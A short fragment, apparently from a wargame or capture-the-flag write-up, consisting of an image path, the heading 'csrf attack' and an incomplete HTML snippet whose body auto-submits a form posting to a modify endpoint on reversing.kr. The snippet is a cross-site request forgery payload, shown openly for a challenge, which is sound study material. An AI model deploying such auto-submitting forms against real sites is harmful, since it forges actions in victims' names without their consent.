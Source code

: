 ### csrf attack

```cmd
<body onload="document.forms['modify'].submit()" >

<form  name="modify" action="http://reversing.kr/prc/prc_modify.php " method="post">
```
